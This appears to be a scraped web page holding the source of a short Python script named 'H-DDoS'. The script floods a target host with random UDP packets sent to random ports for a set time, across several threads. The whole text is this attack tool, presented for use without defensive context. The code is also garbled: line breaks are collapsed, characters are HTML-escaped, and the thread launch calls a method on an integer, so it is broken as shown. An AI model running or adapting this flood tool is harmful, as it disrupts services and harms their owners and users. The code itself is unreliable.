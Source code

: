 # H-DDoS
import socket, random, threading, sys, time  try:     target = str(sys.argv[1])     threads = int(sys.argv[2])     timer = float(sys.argv[3]) except IndexError:     print('\n[+] Command usage: python ' + sys.argv[0] + ' &lt;target> &lt;threads> &lt;time> !')     sys.exit()      timeout = time.time() + 1 * timer  def attack():     try:         bytes = random._urandom(1024)         sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)         while time.time() &lt; timeout:             dport = random.randint(20,55500)             sock.sendto(bytes*random.randint(5,15),(target, dport))         return         sys.exit()     except:         pass          print('\n[+] Starting Attack..') for x in range(0, threads):     threads.Thread(target=attack).start()      print('\n[+] Attack Done.')
